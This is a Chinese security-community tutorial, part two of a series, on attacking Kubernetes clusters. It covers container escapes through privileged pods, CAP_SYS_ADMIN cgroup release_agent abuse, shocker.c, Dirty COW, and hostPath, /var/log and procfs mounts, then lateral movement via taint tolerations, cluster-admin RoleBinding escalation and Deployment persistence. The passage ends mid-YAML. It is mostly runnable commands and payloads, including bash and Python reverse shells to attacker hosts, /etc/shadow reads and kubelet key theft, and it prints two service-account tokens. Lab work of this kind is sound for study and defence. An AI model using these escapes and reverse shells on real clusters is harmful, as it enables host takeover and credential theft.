# K8s集群安全攻防(下) - 先知社区

K8s集群安全攻防(下)

- - -

## 文章前言

本篇文章是填补之前"K8s集群安全攻防(上)"挖的坑，主要补充K8s的逃逸、横向移动、权限维持、扩展技巧等内容

## 逃逸相关

### 配置不当

#### Privileged特权模式逃逸

##### 前置知识

Security Context(安全上下文)，用于定义Pod或Container的权限和访问控制，Kubernetes提供了三种配置Security Context的方法：

-   Pod Security Policy：应用于集群级别
-   Pod-level Security Context：应用于Pod级别
-   Container-level Security Context：应用于容器级别

容器级别：仅应用到指定的容器上，并且不会影响Volume

```plain
apiVersion: v1
kind: Pod
metadata:
  name: hello-world
spec:
  containers:
    - name: hello-world-container
      image: ubuntu:latest
      securityContext:
        privileged: true
```

Pod级别：应用到Pod内所有容器，会影响Volume

```plain
apiVersion: v1
kind: Pod
metadata:
  name: hello-world
spec:
  containers:
  securityContext:
    fsGroup: 1234
    supplementalGroups: [5678]
    seLinuxOptions:
      level: "s0:c123,c456"
```

PSP，集群级别：PSP是集群级的Pod安全策略，自动为集群内的Pod和Volume设置Security Context  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027132824-a6153f30-7489-1.png)

##### 漏洞介绍

当容器启动加上--privileged选项时，容器可以访问宿主机上所有设备，而K8s配置文件如果启用了"privileged: true"也可以实现挂载操作

##### 逃逸演示

Step 1：使用docker拉取ubuntu镜像到本地

```plain
sudo docker pull ubuntu
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133008-e44a9098-7489-1.png)  
Step 2：创建一个Pod的yaml文件

```plain
apiVersion: v1
kind: Pod
metadata:
  name: myapp-test
spec:
  containers:
  - image: ubuntu:latest
    name: ubuntu
    securityContext:
      privileged: true
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133148-1ff4a17e-748a-1.png)  
Step 3：创建一个Pod

```plain
kubectl create -f myapp-test.yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133242-400f5b48-748a-1.png)  
Step 3：进入Pod进行逃逸操作

```plain
#进入pod
kubectl exec -it myapp-test /bin/bash

#查看磁盘
fdisk -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133307-4f08ba54-748a-1.png)  
Step 4：查看权限

```plain
cat /proc/self/status | grep CapEff
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133331-5d0c4e9a-748a-1.png)  
Step 5：使用CDK进行逃逸

```plain
./cdk run mount-disk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133355-6b561fc6-748a-1.png)  
在容器内部进入挂载目录，直接管理宿主机磁盘文件(多少有一些问题)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133417-78f9e41e-748a-1.png)

#### CAP\_SYS\_ADMIN配置逃逸

##### 漏洞概述

Docker通过Linux Namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯，但部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限：

-   \--pid=host 启动时，绕过PID Namespace
-   \--ipc=host 启动时，绕过IPC Namespace
-   \--net=host 启动时，绕过Network Namespace
-   \--cap-add=SYS\_ADMIN 启动时，允许执行mount特权操作，需获得资源挂载进行利用

##### 利用前提

-   在容器内root用户
-   容器必须使用SYS\_ADMIN Linux capability运行
-   容器必须缺少AppArmor配置文件，否则将允许mount syscall
-   cgroup v1虚拟文件系统必须以读写方式安装在容器内部

##### 前置知识

**cgroup**  
默认情况下容器在启动时会在/sys/fs/cgroup目录各个subsystem目录的docker子目录里生成以容器ID为名字的子目录，我们通过执行以下命令查看宿主机里的memory cgroup目录，可以看到docker目录里多了一个目录9d14bc4987d5807f691b988464e167653603b13faf805a559c8a08cb36e3251a，这一串字符是容器ID，这个目录里的内容就是用户在容器里查看/sys/fs/cgroup/memory的内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133631-c85a08fe-748a-1.png)  
**mount**  
mount命令是一个系统调用(syscall)命令，系统调用号为165，执行syscall需要用户具备CAP\_SYS\_ADMIN的Capability，如果在宿主机启动时添加了--cap-add SYS\_ADMIN参数，那root用户就能在容器内部就能执行mount挂载cgroup，docker默认情况下不会开启SYS\_ADMIN Capability

##### 漏洞利用

漏洞利用的第一步是在容器里创建一个临时目录/tmp/cgrp并使用mount命令将系统默认的memory类型的cgroup重新挂载到/tmp/cgrp上

```plain
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
```

参数解释：

-   \-t参数：表示mount的类别为cgroup
-   \-o参数：表示挂载的选项，对于cgroup，挂载选项就是cgroup的subsystem，每个subsystem代表一种资源类型，比如：cpu、memory  
    执行该命令之后，宿主机的memory cgroup被挂载到了容器中，对应目录/tmp/cgrp

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133725-e9113e82-748a-1.png)  
需要注意的是在对cgroup进行重新挂载的操作时只有当被挂载目标的hierarchy为空时才能成功，因此如果这里memory的重新挂载不成功的话可以换其他的subsystem，接着就是在这个cgroup类型里建一个子目录x

```plain
mkdir /tmp/cgrp/x
```

漏洞利用的第二步和notify\_no\_release有关，cgroup的每一个subsystem都有参数notify\_on\_release，这个参数值是Boolean型，1或0，分别可以启动和禁用释放代理的指令，如果notify\_on\_release启用当cgroup不再包含任何任务时(即cgroup的tasks文件里的PID为空时)，系统内核会执行release\_agent参数指定的文件里的文本内容，不过需要注意的是release\_agent文件并不在/tmp/cgrp/x目录里，而是在memory cgroup的根目录/tmp/cgrp里，这样的设计可以用来自动移除根cgroup里所有空的cgroup，我们可以通过执行以下命令将/tmp/cgrp/x的notify\_no\_release属性设置为1

```plain
echo 1 > /tmp/cgrp/x/notify_no_release
```

接着通过将release\_agent指定为容器在宿主机上的cmd文件，具体操作是先获取docker容器在宿主机上的存储路径：

```plain
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

文件/etc/mtab存储了容器中实际挂载的文件系统  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133829-0edbbd22-748b-1.png)  
这里使用sed命令匹配perdir=(和)之间的非逗号内容，从上图可以看出，host\_path就是docker的overlay存储驱动上的可写目录upperdir  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133858-20555cac-748b-1.png)  
在这个目录里创建一个cmd文件，并把它作为/tmp/cgrp/x/release\_agent参数指定的文件：

```plain
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

接下来POC将要执行的shell写到cmd文件里，并赋予执行权限

```plain
echo '#!/bin/sh' > /cmd
echo "sh -i >& /dev/tcp/10.0.0.1/8443 0>&1" >> /cmd
chmod a+x /cmd
```

最后POC触发宿主机执行cmd文件中的shell

```plain
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

该命令启动一个sh进程，将sh进程的PID写入到/tmp/cgrp/x/cgroup.procs里，这里的\\$\\$表示sh进程的PID，在执行完sh -c之后，sh进程自动退出，这样cgroup /tmp/cgrp/x里不再包含任何任务，/tmp/cgrp/release\_agent文件里的shell将被操作系统内核执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027133935-3631cb5a-748b-1.png)

#### CAP\_DAC\_READ\_SEARCH

##### 影响范围

Docker 1.0

##### 场景描述

在早期的docker中容器内是默认拥有CAP\_DAC\_READ\_SEARCH的权限的，拥有该Capability权限之后，容器内进程可以使用open\_by\_handle\_at函数对宿主机文件系统暴力扫描，以获取宿主机的目标文件内容，Docker1.0之前对容器能力(Capability)使用黑名单策略管理，并未限制CAP\_DAC\_READ\_SEARCH能力，故而赋予了shocker.c程序调用open\_by\_handle\_at函数的能力，导致容器逃逸的发生

##### 环境构建

```plain
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027134108-6dfce90c-748b-1.png)

```plain
./metarget cnv install cap_dac_read_search-container
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027134130-7ade5bba-748b-1.png)  
备注：此场景较为简单可以直接使用Docker手动搭建，默认存在漏洞的Docker版本过于久远，但是复现漏洞可以使用任意版本的Docker，只需要在启动Docker时通过--cap-add选项来添加CAP\_DAC\_READ\_SEARCH capability的权限即可

##### 漏洞复现

Step 1：查看容器列表可以发现此时有一个名为cap-dac-read-search-container的带有CAP\_DAC\_READ\_SEARCH权限的容器

```plain
docker ps -a | grep cap
docker top 5713dea
getpcaps 51776
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027134236-a210243e-748b-1.png)  
Step 2：下载poc文件并修改shocker.c中.dockerinit文件为 /etc/hosts

```plain
#初始文件
// get a FS reference from something mounted in from outside
if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
  die("[-] open");

#更改文件
// 由于文件需要和宿主机在同一个挂载的文件系统下，而高版本的.dockerinit已经不在宿主机的文件系统下了
// 但是/etc/resolv.conf,/etc/hostname,/etc/hosts等文件仍然是从宿主机直接挂载的，属于宿主机的文件系统
if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
  die("[-] open");
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027134258-af92e6b4-748b-1.png)  
Step 3：编译shock.c文件

```plain
gcc shocker.c -o shocker
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027134320-bc7e4efe-748b-1.png)  
Step 4：docker cp到容器内运行后成功访问到了宿主机的/etc/shadow文件

```plain
#基本格式
docker cp 本地路径 容器ID:容器路径

#使用实例
docker cp /home/ubuntu/shocker 5713dea8ce4b:/tmp/shocker
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027134348-cd12a3a0-748b-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027134358-d349a9f8-748b-1.png)

### 内核漏洞

内核漏洞由很多都可以利用，例如：

-   CVE-2016-5195:脏牛漏洞逃逸
-   CVE-2017-7308:Linux内核逃逸
-   CVE-2017-1000112:Linux内核逃逸
-   CVE-2021-22555:Linux内核逃逸
-   CVE-2021-31440:Linux eBPF
-   CVE-2022-0185:Linux Kernel Escape

下面仅以脏牛漏洞逃逸为例：

#### 影响范围

Linux kernel 2.x through 4.x before 4.8.3

#### 漏洞描述

Dirty Cow(CVE-2016-5195)是Linux内核中的权限提升漏洞，通过它可实现Docker容器逃逸，获得root权限的shell，需要注意的是Docker与宿主机共享内核，因此容器需要在存在dirtyCow漏洞的宿主机里运行

#### 漏洞复现

Step 1：测试环境下载

```plain
git clone https://github.com/gebl/dirtycow-docker-vdso.git
```

Step 2：运行测试容器

```plain
cd dirtycow-docker-vdso/
sudo docker-compose run dirtycow /bin/bash
```

Step 3：进入容器编译POC并执行

```plain
cd /dirtycow-vdso/
make
./0xdeadbeef 192.168.172.136:1234
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140130-45db501e-748e-1.png)  
Step 4：在192.168.172.136监听本地端口，成功接收到宿主机反弹的shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140145-4f3f6fd2-748e-1.png)  
这里留一个常被用于面试的问题给大家思考：  
为什么内核漏洞可以导致容器逃逸？基本原理是什么？

### 危险挂载

#### HostPath目录挂载

##### 场景描述

由于用户使用较为危险的挂载将物理机的路径挂载到了容器内，从而导致逃逸

##### 具体实现

Step 1：查看当前权限确定该容器具有主机系统的完整权限  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140722-17a4a294-748f-1.png)  
Step 2：发现/host-system从主机系统安装

```plain
ls -al
ls /host-system/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140749-2832f46c-748f-1.png)  
Step 3：获得主机系统权限

```plain
chroot /host-system bash
docker ps
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140807-32a372be-748f-1.png)  
Step 4：访问节点级别Kubernetes的kubelet配置

```plain
cat /var/lib/kubelet/kubeconfig
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140825-3d9f1fe2-748f-1.png)  
Step 5：使用kubelet配置执行Kubernetes集群范围的资源

```plain
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140849-4b8457c6-748f-1.png)

#### /var/log危险挂载

##### 场景介绍

当Pod以可写权限挂载了宿主机的/var/log目录，而且Pod里的Service Account有权限访问该Pod在宿主机上的日志时，攻击者可以通过在容器内创建符号链接来完成简单逃逸，简单归纳总结如下：

-   挂载了/var/log
-   容器在一个K8s的环境中
-   Pod的ServiceAccount拥有get|list|watch log的权限

##### 原理简介

下图展示了kubectl logs <pod-name> 如何从pod中检索日志</pod-name>

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027140935-67148d62-748f-1.png)  
kubelet会在宿主机上的/var/log目录中创建一个目录结构，如图符号1，代表节点上的pod，但它实际上是一个符号链接，指向/var/lib/docker/containers目录中的容器日志文件，当使用kubectl logs <pod-name>命令查询指定pod的日志时，实际上是向kubelet的/logs/pods/<path\_to\_0.log>接口发起HTTP请求，对于该请求的处理逻辑如下</pod-name>

```plain
#kubernetes\pkg\kubelet\kubelet.go:1371
if kl.logServer == nil {
        kl.logServer = http.StripPrefix("/logs/", http.FileServer(http.Dir("/var/log/")))
}
```

kubelet会解析该请求地址去/var/log对应的目录下读取log文件并返回，当pod以可写权限挂载了宿主机上的/var/log目录时，可以在该路径下创建一个符号链接指向宿主机的根目录，然后构造包含该符号链接的恶意kubelet请求，宿主机在解析时会解析该符号链接，导致可以读取宿主机任意文件和目录

##### 环境搭建

```plain
#基础环境
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic

#漏洞环境
./metarget cnv install mount-var-log
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141145-b4bdc3b2-748f-1.png)  
执行完成后，K8s集群内metarget命令空间下将会创建一个名为mount-var-log的pod

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141200-bd74e058-748f-1.png)

##### 漏洞复现

Step 1：执行以下命令进入容器

```plain
kubectl -n metarget exec -it mount-var-log  /bin/bash
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141231-d019e546-748f-1.png)  
Step 2：查看文件，Pod内可执行以下两种命令

```plain
lsh     等于宿主机上的ls
cath    等于宿主机上的cat
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141301-e1fd749e-748f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141309-e6c96cf8-748f-1.png)

##### 敏感文件

```plain
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ python find_sensitive_files.py
[*] Got access to kubelet /logs endpoint
[+] creating symlink to host root folder inside /var/log

[*] fetching token files from host
[+] extracted hostfile: /var/lib/kubelet/pods/6d67bed2-abe3-11e9-9888-42010a8e020e/volumes/kubernetes.io~secret/metadata-agent-token-xjfh9/token

[*] fetching private key files from host
[+] extracted hostfile: /home/ubuntu/.ssh/private.key
[+] extracted hostfile: /etc/srv/kubernetes/pki/kubelet.key
...
```

之后会下载对应的敏感文件到以下位置：

```plain
#Token Files
/root/exploit/host_files/tokens

#Key Files
/root/exploit/host_files/private_keys
```

##### 漏洞EXP

[https://github.com/danielsagi/kube-pod-escape](https://github.com/danielsagi/kube-pod-escape)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141408-09c0657c-7490-1.png)

#### Procfs目录逃逸类

##### 场景介绍

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件，因此将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时(Docker默认情况下不会为容器开启User Namespace)，一般来说我们不会将宿主机的procfs挂载到容器中，然而有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来，procfs中的/proc/sys/kernel/core\_pattern负责配置进程崩溃时内存转储数据的导出方式，从2.6.19内核版本开始Linux支持在/proc/sys/kernel/core\_pattern中使用新语法，如果该文件中的首个字符是管道符|，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行

##### 环境搭建

基础环境构建：

```plain
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```plain
./metarget cnv install mount-host-procfs
```

执行完成后K8s集群内metarget命令空间下将会创建一个名为mount-host-procfs的pod，宿主机的procfs在容器内部的挂载路径是/host-proc

##### 漏洞复现

执行以下命令进入容器：

```plain
kubectl exec -it -n metarget mount-host-procfs /bin/bash
```

在容器中首先拿到当前容器在宿主机上的绝对路径：

```plain
root@mount-host-procfs:/# cat /proc/mounts | grep docker
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/SDXPXVSYNB3RPWJYHAD5RIIIMO:/var/lib/docker/overlay2/l/QJFV62VKQFBRS5T5ZW4SEMZQC6:/var/lib/docker/overlay2/l/SSCMLZUT23WUSPXAOVLGLRRP7W:/var/lib/docker/overlay2/l/IBTHKEVQBPDIYMRIVBSVOE2A6Y:/var/lib/docker/overlay2/l/YYE5TPGYGPOWDNU7KP3JEWWSQM,upperdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/diff,workdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/work 0 0
```

从workdir可以得到基础路径，结合背景知识可知当前容器在宿主机上的merged目录绝对路径如下：

```plain
/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged
```

向容器内/host-proc/sys/kernel/core\_pattern内写入以下内容：

```plain
echo -e "|/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged/tmp/.x.py \rcore  " > /host-proc/sys/kernel/core_pattern
```

然后在容器内创建一个反弹shell的/tmp/.x.py：

```plain
cat >/tmp/.x.py << EOF
#!/usr/bin/python
import os
import pty
import socket
lhost = "attacker-ip"
lport = 10000
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    os.putenv("HISTFILE", '/dev/null')
    pty.spawn("/bin/bash")
    os.remove('/tmp/.x.py')
    s.close()
if __name__ == "__main__":
    main()
EOF

chmod +x /tmp/.x.py
```

最后在容器内运行一个可以崩溃的程序即可，例如：

```plain
#include <stdio.h>
int main(void)
{
    int *a = NULL;
    *a = 1;
    return 0;
}
```

容器内若没有编译器，可以先在其他机器上编译好后放入容器中，等完成后在其他机器上开启shell监听：

```plain
ncat -lvnp 10000
```

接着在容器内执行上述编译好的崩溃程序，即可获得反弹shell

## 横向渗透

### 基础知识

污点是K8s高级调度的特性，用于限制哪些Pod可以被调度到某一个节点，一般主节点包含一个污点，这个污点是阻止Pod调度到主节点上面，除非有Pod能容忍这个污点，而通常容忍这个污点的Pod都是系统级别的Pod，例如:kube-system  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141814-9c3f5066-7490-1.png)

### 基本原理

攻击者在获取到node节点的权限后可以通过kubectl来创建一个能够容忍主节点的污点的Pod，当该Pod被成功创建到Master上之后，攻击者可以通过在子节点上操作该Pod实现对主节点的控制

### 横向移动

Step 1：Node中查看节点信息

```plain
kubectl get nodes
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141908-bc97729e-7490-1.png)  
Step 2：确认Master节点的容忍度

```plain
#方式一
kubectl describe nodes master
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141931-ca989ff8-7490-1.png)

```plain
#方式二
kubectl describe node master | grep 'Taints' -A 5
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027141947-d41752ea-7490-1.png)  
Step 3：创建带有容忍参数的Pod(必要时可以修改Yaml使Pod增加到特定的Node上去)

```plain
apiVersion: v1
kind: Pod
metadata:
  name: control-master-15
spec:
  tolerations:
    - key: node-role.kubernetes.io/master
      operator: Exists
      effect: NoSchedule
  containers:
    - name: control-master-15
      image: ubuntu:18.04
      command: ["/bin/sleep", "3650d"]
      volumeMounts:
      - name: master
        mountPath: /master
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142010-e179c12a-7490-1.png)

```plain
#创建Pod
kubectl create -f control-master.yaml

#部署情况
kubectl get deploy -o wide

#Pod详情
kubectl get pod -o wide
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142032-eec932f2-7490-1.png)  
Step 4：获得Master控制端

```plain
kubectl exec control-master-15 -it bash
chroot /master bash
ls -al
cat /etc/shadow
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142051-f9e180fe-7490-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142058-fe288252-7490-1.png)

#### 扩展技巧

执行以下命令清除污点之后直接执行部署Pod到Master上，之后通过挂载实现逃逸获取Master节点的权限

```plain
#清除污点
kubectl taint nodes debian node-role.kubernetes.io/master:NoSchedule-

#查看污点
kubectl describe node master | grep 'Taints' -A 5
```

## 权限提升

K8s中的权限提升可以参考以下CVE链接，这里不再做复现：  
1、CVE-2018-1002105:Kubernetes API Server Privileges Escalation：  
[https://goteleport.com/blog/kubernetes-websocket-upgrade-security-vulnerability/](https://goteleport.com/blog/kubernetes-websocket-upgrade-security-vulnerability/)  
2、CVE-2019-11247:Kubernetes API Server Privileges Escalation：  
[https://github.com/kubernetes/kubernetes/issues/80983](https://github.com/kubernetes/kubernetes/issues/80983)  
3、CVE-2020-8559:Kubernetes API Server Privileges Escalation：  
[https://github.com/tdwyer/CVE-2020-8559](https://github.com/tdwyer/CVE-2020-8559)  
下面对Rolebinding权限提升进行一个简单的演示：

### 基本介绍

K8s使用基于角色的访问控制(RBAC)来进行操作鉴权，允许管理员通过Kubernetes API动态配置策略，某些情况下运维人员为了操作便利，会对普通用户授予cluster-admin的角色，攻击者如果收集到该用户登录凭证后，可直接以最高权限接管K8s集群，少数情况下攻击者可以先获取角色绑定(RoleBinding)权限，并将其他用户添加cluster-admin或其他高权限角色来完成提权

### 简易实例

Step 1：下载yaml文件

```plain
wget https://raw.githubusercontent.com/kubernetes/dashboard/v2.0.0-beta8/aio/deploy/recommended.yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142633-c5e5ac20-7491-1.png)  
Step 2：修改YAML文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142646-cd97d678-7491-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142658-d5091e12-7491-1.png)  
Step 3：下载镜像  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142710-dbd29c50-7491-1.png)  
Step 4：进行部署操作

```plain
#部署操作
kubectl apply -f kubernetes-dashboard.yaml

#删除操作
kubectl delete -f kubernetes-dashboard.yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142730-e82fd332-7491-1.png)  
Step 5：查看pod和service状态

```plain
kubectl get pods,svc -n kubernetes-dashboard -o wide
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142752-f541a87a-7491-1.png)  
Step 6：查看所有的pod

```plain
kubectl get pods --all-namespaces -o wide
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142812-00e0600e-7492-1.png)  
Step 7：在浏览器中访问，选择用默认用户kubernetes-dashboard的token登陆

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142827-09cd17ac-7492-1.png)  
Step 8：查看serviceaccount和secrets

```plain
kubectl  get sa,secrets -n kubernetes-dashboard
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142841-123a26f0-7492-1.png)  
Step 9：查看token

```plain
kubectl describe secrets kubernetes-dashboard-token-8kxnh -n kubernetes-dashboard
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142859-1d1f000e-7492-1.png)

```plain
eyJhbGciOiJSUzI1NiIsImtpZCI6Iml3OVRtaVlnREpPQ0h2ZlUwSDBleFlIc29qcXgtTmtaUFN4WDk4NjZkV1EifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlcm5ldGVzLWRhc2hib2FyZCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJrdWJlcm5ldGVzLWRhc2hib2FyZC10b2tlbi04a3huaCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50Lm5hbWUiOiJrdWJlcm5ldGVzLWRhc2hib2FyZCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6ImMyYTE0NTAzLTc4MzgtNGY3MS1iOTBjLTFhMWJkOTk4NGFiMiIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDprdWJlcm5ldGVzLWRhc2hib2FyZDprdWJlcm5ldGVzLWRhc2hib2FyZCJ9.bQOXikheuY7kL0Dki0mLmyVvGT9cDc4HvdUWXPRywjFPCZNeX6mMurU6pr9LJR25MFwF4Y3ZlnGzHDbrGR-bYRLwDsSvX-qvh0BLCZhQORE2gfd971lCQc7uoyrkf-EJrg26_0C2yGGhZI7JdcRDjrjuHG0aZpQ1vNZYrIWwj5hj9yn7xVI0-dVLbjx8_1kmRXIKw5dk3c_x8aKh-fLSZ-ncpMBf35GGisUHzsdPWup_fqoQKZr4TcEMYc2FcooDQ_mnhBL-WVTbHM9z-LEcebTaCepYR7f-655nRXrDWQe3H524Vvak9aEHI9xK8qHWk1546ka14fMsYTqi3Ra-Tg
```

Step 10：使用默认用户的token登录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142918-2856dac8-7492-1.png)  
之后发现权限略有不足：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027142932-30581aa2-7492-1.png)  
Step 11：新建管理员  
a、创建serviceaccount

```plain
kubectl create serviceaccount admin-myuser -n kubernetes-dashboard
```

b、绑定集群管理员

```plain
kubectl create clusterrolebinding  dashboard-cluster-admin --clusterrole=cluster-admin --serviceaccount=kubernetes-dashboard:admin-myuser
```

```plain
kubectl get sa,secrets -n kubernetes-dashboard
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143020-4d641a06-7492-1.png)  
c、查看token

```plain
kubectl describe secret admin-myuser-token-jcj9d -n kubernetes-dashboard
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143044-5b7b8ae8-7492-1.png)

```plain
eyJhbGciOiJSUzI1NiIsImtpZCI6Iml3OVRtaVlnREpPQ0h2ZlUwSDBleFlIc29qcXgtTmtaUFN4WDk4NjZkV1EifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlcm5ldGVzLWRhc2hib2FyZCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJhZG1pbi1teXVzZXItdG9rZW4tamNqOWQiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiYWRtaW4tbXl1c2VyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQudWlkIjoiYjM5MjBlZWEtMzA1NS00ZDQzLWEyMWMtNDk4MDEwM2NhMjhmIiwic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50Omt1YmVybmV0ZXMtZGFzaGJvYXJkOmFkbWluLW15dXNlciJ9.DC1dSWMY46GzOZiSDsQWjO2dNIQ6ZsO_KDDfWjJ74m8ugPoklduiPeLj85n2NI03NKzCpXOaRRUR4LZHHT5KrpKFTsA9uPQyC0Lb3vi-UUZuQ4uhAZrzOxHx82tIcgNBSv-hXvIZytSrgm3RaItH20O3D-3NTEPt00ohD54cq6FyQPBqGi5yseLlTKj4Z2exbCCHxie67ID8ykaNnwcC8Ay1Ccznlvqu8ffdTejrcqFEyGZqHW3NuBxtYGkh_THdZIGHxaeqgLlGb7i2SbOr3IPeQGlf9l-rRKFSIMqvK_0SFBM9BiA0A4lEv26ro2LC4_PxF6o5_QOAz7X0E65hfw
```

Step 12：登录dashboard

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143101-656ae2a6-7492-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143107-693c1738-7492-1.png)  
随后可以进行逃逸等操作，具体看上篇，这里不再赘述

## 权限维持

### Deployment特性

#### 基本概述

如果创建容器时启用了DaemonSets、Deployments那么便可以使容器和子容器即使被清理掉了也可以恢复，攻击者可利用这个特性实现持久化，相关概念如下：  
ReplicationController(RC)：ReplicationController确保在任何时候都有特定数量的Pod副本处于运行状态  
Replication Set(RS)：官方推荐使用RS和Deployment来代替RC，实际上RS和RC的功能基本一致，目前唯一的一个区别就是RC只支持基于等式的selector  
Deployment：主要职责和RC一样，都是保证Pod的数量和健康，二者大部分功能都是完全一致的，可以看成是一个升级版的RC控制器，官方组件kube-dns、kube-proxy也都是使用的Deployment来管理

#### 手动实现

Step 1：创建dep.yaml文件并加入恶意载荷

```plain
#dep.yaml
apiVersion: apps/v1
kind: Deployment                #确保在任何时候都有特定数量的Pod副本处于运行状态
metadata:
  name: nginx-deploy
  labels:
    k8s-app: nginx-demo
spec:
  replicas: 3                   #指定Pod副本数量
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: nginx
        image: nginx:1.7.9
        imagePullPolicy: IfNotPresent
        command: ["bash"]       #反弹Shell
